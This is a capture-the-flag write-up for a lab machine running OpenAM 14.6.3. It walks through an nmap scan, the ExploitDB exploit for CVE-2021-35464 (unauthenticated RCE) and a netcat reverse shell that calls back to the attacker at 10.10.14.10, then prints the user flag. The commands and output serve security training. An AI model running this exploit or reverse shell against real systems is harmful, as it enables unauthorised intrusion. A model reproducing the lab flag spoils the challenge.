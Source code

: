 # Manager - User

Some basic info after starting the instance and connecting to the challenge VPN network via `openvpn` -  
Target IP - 10.129.173.138  
Local IP - 10.10.14.10
Verified that my local machine could talk to the target using `ping`.

# Information Gathering
Did a quick Nmap scan of the IP to list down detailed info about open ports, protocols, services running, OS info, version info and quickly see what the target looks like.
```
$ sudo nmap -A -T4 10.129.173.138 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 19:21 EDT
Nmap scan report for 10.129.173.136
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:a9:f3:f4:f6:a7:0e:9f:d0:25:b6:f4:21:df:6a:11 (RSA)
|   256 0b:b6:38:74:7d:97:bd:1e:a5:ef:35:f8:ef:4d:c6:a6 (ECDSA)
|_  256 81:29:51:ee:09:a8:91:ec:3f:dc:0d:50:d7:25:2a:46 (ED25519)
8080/tcp  open  http     Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
34571/tcp open  java-rmi Java RMI
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/26%OT=22%CT=1%CU=44213%PV=Y%DS=2%DC=T%G=Y%TM=60FF43C
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=C)SEQ(
OS:SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE
OS:88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   78.46 ms 10.10.14.1
2   81.44 ms 10.129.173.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.27 seconds
```

A Tomcat webserver was running on `8080/tcp` and revealed some interesting info
```
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

Added an entry in `/etc/hosts` file on my local machine for the DNS to work. Note the use of `sudo` to edit it because it's a system file owned by `root`.
```
$ sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
10.129.173.136  manager.htb
```

Browsed to `http://manager.htb:8080/` and it redirected to a login form to OpenAM - Open Access Manager. OpenAM is an open-source access management, entitlements and federation server platform.

![OpenAM](./img/manager-user.png)

Gathered some header info from the `Network` tab in browser dev tools.

![headers](./img/manager-headers.png)

Found the OpenAM version - `v: 14.6.3`

Based on this initial info, did a quick search on the ExploitDB using `searchsploit` CLI tool to see if an exploit is available and surely there was one! 

```
$ searchsploit openam 14.6.3
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                                     | java/webapps/50131.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Fetched the exploit

```
$ searchsploit -m 50131
  Exploit: ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50131
     Path: /usr/share/exploitdb/exploits/java/webapps/50131.py
File Type: UTF-8 Unicode text, with very long lines, with CRLF line terminators

Copied to: /home/kali/50131.py
```

Reviewed the exploit code to check if any edits were necessary for the exploit to work correctly and also to make sure the exploit did only what it said it did and nothing more. In this case, only the target URL was modified as applicable.  
> Note: ALWAYS review any exploit that you have not written before using it.

```
## Static vars; change at will, but recommend leaving as is
sURL = 'http://10.129.173.138:8080/openam'
```

Renamed the exploit name. This really was optional but I like to name them something meaningful and easy to recognize. 

```
$ mv 50131.py CVE-2021-35464.py
```

Now the exploit was ready to be used.

# Exploit and Solve

Did a quick check using `id` to see if the exploit was returning expected results.

```
$ python3 CVE-2021-35464.py -c id http://manager.htb:8080/openam/

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "id" now:

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Perfect! Remote Command Execution (RCE) worked. I also verified that netcat was available at `/bin/nc`. Now all I needed was a reverse shell on the target and my go to cheat sheet for a variety of them is [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I chose to use the below. Notice the modified IP, port and shell choice.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f
```

Started a `nc` listener to receive the reverse shell

```
$ nc -nlvp 1234
listening on [any] 1234 ...
```

Executed the exploit

```
$ python3 CVE-2021-35464.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" http://manager.htb:8080/openam/                                                  

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" now:
```

Connection and shell received

```
connect to [10.10.14.10] from (UNKNOWN) [10.129.173.138] 48794
tomcat@manager:/$ whoami
whoami
tomcat
tomcat@manager:/$ ls ~
ls ~
accessmanager  conf    lib   openam  user.txt  work
bin            config  logs  temp    webapps
tomcat@manager:/$ cat ~/user.txt  
cat ~/user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

Flag - `HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}`
